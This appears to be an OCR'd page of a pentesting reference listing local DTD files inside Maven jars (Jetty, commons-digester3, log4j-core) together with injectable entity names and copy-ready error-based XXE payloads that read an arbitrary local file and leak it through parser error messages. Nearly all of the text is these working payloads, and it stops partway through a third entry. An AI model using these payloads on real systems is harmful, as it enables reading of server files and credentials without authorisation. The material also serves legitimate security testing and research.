  --- 

**DTD File:** `[HOME_DIR]/.m2/repository/jetty/org.mortbay.jetty/5.1.4/org.mortbay.jetty-5.1.4.jar!/org/mortbay/xml/configure_1_0.dtd`

**Injectable entity:** `%CONFIG`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/jetty/org.mortbay.jetty/5.1.4/org.mortbay.jetty-5.1.4.jar!/org/mortbay/xml/configure_1_0.dtd">

    <!ENTITY % CONFIG 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/apache/commons/commons-digester3/3.2/commons-digester3-3.2.jar!/org/apache/commons/digester3/xmlrules/digester-rules.dtd`

**Injectable entity:** `%rule-elements`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/apache/commons/commons-digester3/3.2/commons-digester3-3.2.jar!/org/apache/commons/digester3/xmlrules/digester-rules.dtd">

    <!ENTITY % rule-elements 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/apache/logging/log4j/log4j-core/2.3/log4j-core-2.3.jar!/Log4j-events.dtd`
